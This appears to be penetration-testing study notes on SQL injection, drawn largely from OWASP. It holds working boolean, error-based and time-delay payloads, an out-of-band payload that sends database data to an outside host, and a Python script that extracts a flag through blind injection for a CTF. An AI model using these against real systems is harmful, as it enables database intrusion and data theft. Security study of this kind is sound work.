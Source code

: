 # SQL Injection
---
## Navigation
- **[[#Detection Techniques]]**
- **[[#Boolean Exploitation Technique]]**
- **[[#Error Based Exploitation Technique]]**
- **[[#Out of Band Exploitation Technique]]**
- **[[#Time Delay Exploitation Technique]]**
- **[[#Evasion techniques]]**

---
#### SQL Injection attacks can be divided into the following three classes:
- **Inband:** data is extracted using the same channel that is used to inject the SQL code.
- **Out-of-band:** data is retrieved using a different channel (e.g., an email).
- **Inferential or Blind:** there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.


#### The techniques to exploit SQL injection flaws there are five commons techniques
-   **Union Operator:** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-   **Boolean:** use Boolean condition(s) to verify whether certain conditions are true or false.
-   **Error based:** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-   **Out-of-band:** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-   **Time delay:** use database commands (e.g. sleep) to delay answers in conditional queries. It is useful when attacker doesn’t have some kind of answer (result, output, or error) from the application.

## Detection Techniques
-   Authentication forms
-   Search engines:
-   E-Commerce sites
-   The tester has to make a list of all input fields whose values could be used in crafting a SQL query, **including the hidden fields of POST requests** and then test them separately.

## Boolean Exploitation Technique
The Boolean exploitation technique is very useful when the tester finds a [**Blind SQL Injection**](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation.

We suppose that the query executed on the server is:
```text
SELECT field1, field2, field3 FROM Users WHERE Id='$Id'
```

The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. This is possible through the use of some standard functions, present in practically every database.
-   **SUBSTRING (text, start, length):** returns a substring starting from the position “start” of text and of length “length”. If “start” is greater than the length of text, the function returns a null value.
- **ASCII (char):** it gives back ASCII value of the input character. A null value is returned if char is 0.
-   **LENGTH (text):** it gives back the number of characters in the input text.


```text
1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1
```

```text
1' AND LENGTH(username)=N AND '1' = '1
```
## Error Based Exploitation Technique
The Error based technique consists in **forcing the database to perform some operation in which the result will be an error**. The point here is to try to extract some data from the database and show it in the error message.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be (e.g. Oracle 10g):
```text
http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_INADDR.GET_HOST_NAME`. This Oracle function will try to return the hostname of the parameter passed to it, which is other query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:
```text
ORA-292257: host SCOTT unknown
```
## Out of Band Exploitation Technique
The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be:
```text
http://www.example.com/product.php?id=10||UTL_HTTP.request(‘server.com:80’||(SELECT user FROM DUAL)--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make a HTTP GET request containing the return from the query `SELECT user FROM DUAL`.
```bash
$nc -nvlp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```
## Time Delay Exploitation Technique
This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond.
The malicious request would be (e.g.**MySql 5.x**):
```text
http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--
```
## Order-by
```sql
(select case when (SUBSTR((select flag from Flag),1,5)='flag{') then atomic_number else name end)
```
```sql
1 LIMIT 0, 1|1000*(SELECT instr(flag, 'flag{') FROM flag)
```
Code template (messy but works)
```python
inc = 5
flag = "flag{"
while True:
    for i in chars:
        print("[+] Trying: ", i, end="\r", flush=True)
        data = f"(select case when (SUBSTR((select flag from Flag),1,{inc + 1 })='{flag + i}') then atomic_number else name end)"
        Data = {"search": '', "order": data}
        req = requests.post(URL, headers=head, data=Data)
        check = str(req.content).replace(" ","").split("\\n").index("SEACRH FOR")
        if check == <NUMBER>:
            flag = flag + i
            inc += 1
            break
    print(f"[+] Flag is : {flag}")
    print("[!] Starting next iteration..")
    if flag[:-1] == "}":
        break

print(f"[+++] Flag = {flag}")
```
> **Multi-threaded script**: https://github.com/zAbuQasem/Misc/blob/main/Sql_injection.py
## Evasion techniques
> **WAF: **https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

> **More techniques at the end of the page:** https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection

